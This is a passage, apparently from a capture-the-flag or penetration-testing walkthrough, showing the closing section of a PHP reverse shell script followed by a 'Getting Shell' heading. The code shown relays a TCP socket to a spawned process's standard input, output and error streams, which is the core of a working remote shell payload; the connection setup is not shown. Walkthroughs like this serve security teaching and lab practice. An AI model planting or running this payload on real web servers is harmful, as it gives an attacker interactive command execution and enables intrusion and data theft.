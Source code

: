 ```php
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 


```
### Getting Shell
